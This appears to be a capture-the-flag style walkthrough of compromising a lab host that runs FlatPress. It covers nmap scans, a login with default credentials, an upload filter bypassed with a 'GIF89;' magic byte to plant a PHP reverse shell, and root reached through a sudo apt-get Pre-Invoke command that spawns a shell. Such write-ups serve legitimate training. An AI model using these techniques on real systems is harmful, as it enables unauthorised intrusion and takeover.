





Nmap scan.
```sh
nmap -p- --min-rate 5000 -T4 -Pn 192.168.164.29
Starting Nmap 7.95 ( https://nmap.org ) at 2026-02-26 09:07 IST
Warning: 192.168.164.29 giving up on port because retransmission cap hit (6).
Nmap scan report for 192.168.164.29
Host is up (0.12s latency).
Not shown: 65034 closed tcp ports (reset), 498 filtered tcp ports (no-response)
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
8089/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 26.61 seconds
```
```sh
nmap -sC -sV -T4 -Pn -p 22,80,8089 192.168.164.29
Starting Nmap 7.95 ( https://nmap.org ) at 2026-02-26 09:08 IST
Nmap scan report for 192.168.164.29
Host is up (0.11s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
| ssh-hostkey: 
|   3072 c9:c3:da:15:28:3b:f1:f8:9a:36:df:4d:36:6b:a7:44 (RSA)
|   256 26:03:2b:f6:da:90:1d:1b:ec:8d:8f:8d:1e:7e:3d:6b (ECDSA)
|_  256 fb:43:b2:b0:19:2f:d3:f6:bc:aa:60:67:ab:c1:af:37 (ED25519)
80/tcp   open  http    Apache httpd 2.4.56 ((Debian))
|_http-title: Lugx Gaming Shop HTML5 Template
|_http-server-header: Apache/2.4.56 (Debian)
8089/tcp open  http    Apache httpd 2.4.56 ((Debian))
|_http-generator: FlatPress fp-1.2.1
|_http-server-header: Apache/2.4.56 (Debian)
|_http-title: FlatPress
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 16.73 seconds
```
Visiting web server on port 80. Nothing was interesting.

Open the browser and browse to the machine 8089 port and found the login page of FlatPress.

Try to login using simple password and success with the **admin:password**
	
	In the console, there is a “Uploader” that looks interesting.

Uploaded reverse shell.

We got error.

So we created simple .jpg file upload it to the application to check whether it takes image file or not.


And it is uploaded successfully.

So we decided to upload php reverse shell with magic byte.
`GIF89;`

File uploaded successfully.

After opening the file in different tab.

We got the shell.

After running linpeas, we found below.

We open the file.

On Gtfobins we found below.




We got the shell. We tried using different commands but only this one worked.
```sh
sudo apt-get update -o APT::Update::Pre-Invoke::=/bin/sh
```
